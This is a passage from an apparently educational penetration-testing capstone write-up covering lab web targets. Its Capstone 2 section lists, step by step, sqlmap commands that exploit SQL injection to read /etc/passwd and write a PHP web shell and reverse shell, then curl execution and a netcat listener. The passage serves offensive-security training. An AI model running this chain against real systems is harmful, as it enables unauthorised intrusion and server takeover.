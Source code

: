 The tester then clicked `Update File` and went back to the `Installed Plugins` page. Once the tester was back on the `Installed Plugins` page, a netcat listener was started on the attack host.
```Shell
nc -lnvp 4443
```


## Capstone 2 Write-Up

The SQLi vulnerability was discovered in the `Subscribe Our Newsletter` field
![[subscribe field.png]]

When intercepted with Burp Suite, the field was able to be recognized as a possible injection location
![[location.png]]

The request was copied and pasted into a .txt file, then run through sqlmap.
```Shell
sqlmap -r inject.txt
```

This revealed the field was vulnerable to multiple types of SQL injection. Nothing of interest was found in the databases, so the tester attempted to use sqlmap to read the `/etc/passwd` file.
```Shell
sqlmap -r inject.txt --file-read "/etc/passwd"
```

The file was able to be read successfully. Next the tester used sqlmap to determine if a file could be uploaded as a webshell and executed. The file was a PHP cmd shell.
```Shell
sqlmap -r inject.txt --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

The file was uploaded successfully. Using curl, the tester was able to achieve RCE on the web application.
```Shell
curl "http://192.168.235.48/shell.php?cmd=ls"
```

Next the tester uploaded a reverse shell using the Pentest Monkey reverse shell from revshells.com.
```Shell
sqlmap -r inject.txt --file-write "rev.php" --file-dest "/var/www/html/rev.php"
```

A netcat listener was started in order to catch the reverse shell once it was executed.
```Shell
nc -lnvp 4443
```

Then the curl command was used to execute the PHP reverse shell on the web application.
```Shell
curl "http://192.168.235.48/rev.php" 
```

## Capstone 3 Write-up

Looking at the Network tab on the Inspector functionality enabled the tester to discover the `/lib` directory on the web application.
![[waypoint.png]]
![[lib find.png]]
